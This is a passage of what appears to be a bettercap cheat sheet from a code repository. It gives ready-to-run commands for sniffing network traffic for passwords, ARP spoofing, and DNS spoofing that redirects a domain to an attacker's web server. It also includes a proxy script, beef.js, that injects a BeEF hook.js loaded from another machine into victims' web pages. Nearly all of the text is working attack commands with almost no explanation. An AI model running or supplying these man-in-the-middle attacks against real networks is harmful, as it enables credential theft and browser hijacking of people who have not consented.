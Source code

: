 ### Active sniffing (interactive)

```bash
set net.sniff.regexp %Variable%RegEx%;

set net.sniff.regexp .*password=.+;

set net.sniff.output passwords.pcap;
net.sniff on;
```

### ARP spoofing

Spoof all the hosts: (be careful on big network)

```bash
sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;'
```

Spoof a specific host:

```bash
sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;'
```

### DNS Spoofing

Spoof all the hosts: (be careful on big network)

```bash
sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.all true;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'
```

Spoof a specific host:

```bash
sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.address 192.168.0.116;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'
```

### Script injection

```bash
sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set http.proxy.script /Library/WebServer/Documents/bettercap/beef.js;set http.proxy.blacklist *;set http.proxy.whitelist apache.com;http.proxy on'
```

#### beef.js

```javascript
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://192.168.0.110:3000/hook.js"></script></head>' 
            );
        }
    }
}
```
